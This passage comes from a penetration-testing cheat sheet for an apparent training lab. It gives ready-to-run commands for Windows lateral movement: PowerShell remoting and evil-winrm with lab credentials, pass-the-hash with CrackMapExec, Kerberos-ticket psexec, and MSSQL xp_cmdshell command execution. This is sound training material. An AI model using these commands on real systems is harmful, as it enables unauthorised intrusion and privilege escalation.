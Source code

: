 ### Executing Lateral Movement

* **What it does:** Uses credentials to gain a shell or execute commands on a remote machine where your user has administrative privileges.
* **When to use it:** Once BloodHound or manual enumeration shows you have `AdminTo` or `CanPSRemote` rights on a target computer.
* **Example Commands:**
    ```powershell
    # From Windows, using native PowerShell Remoting
    $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
    Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
    ```
    ```shell
    # From Linux, using evil-winrm
    evil-winrm -i 10.129.201.234 -u forend -p 'Klmcargo2'
    ```
    ```shell
    # Pass-the-Hash with CrackMapExec to execute a command
    crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf -x "whoami"
    ```
    ```python
    # Using Impacket's psexec.py with a Kerberos ticket
    export KRB5CCNAME=hacker.ccache
    psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass
    ```

### Exploiting Privileged Service Access (MSSQL)

* **What it does:** If you compromise a user who is a sysadmin (`sa`) on an MSSQL server, you can often enable the `xp_cmdshell` procedure to execute commands on the underlying operating system, usually as `NT AUTHORITY\SYSTEM`.
* **When to use it:** When a port scan reveals an MSSQL server (1433) and you have credentials for a high-privileged database user.
* **Example Workflow:**
    ```shell
    # Connect to the SQL server from Linux
    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
    ```
    ```sql
    -- Inside the SQL shell, enable xp_cmdshell and get a shell
    SQL> enable_xp_cmdshell
    SQL> xp_cmdshell whoami /priv
    ```
